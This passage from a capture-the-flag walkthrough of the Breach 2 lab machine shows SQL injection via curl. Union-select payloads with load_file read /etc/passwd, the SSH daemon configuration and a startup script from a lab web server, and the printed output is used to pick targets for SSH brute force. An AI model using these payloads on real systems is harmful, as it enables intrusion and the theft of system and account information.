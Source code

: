 ![](/assets/images/breach2/screenshot-5.png)

**Enumerating the system users**

Listing the system users, I filtered for those who are using a bash shell, to try brute force via SSH.

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/etc/passwd%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/' | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
peter:x:1000:1000:peter,,,:/home/peter:/bin/bash
milton:x:1002:1002::/home/milton:/bin/bash
```

**Enumerating the ssh configuration file**

At the bottom of the file configuration we can see that only peter can access via ssh, also in the ForceCommand directive we see that a script called startme is being executed after having logged in.

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/etc/ssh/sshd_config%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/'
...
UsePAM yes
AllowUsers peter
ForceCommand /usr/bin/startme
AddressFamily inet
```

To find out that what this script does, I listed the contents of **/usr/bin/startme**.

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/usr/bin/startme%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/'
#!/bin/bash

sudo /etc/init.d/apache2 start &> /dev/null
```
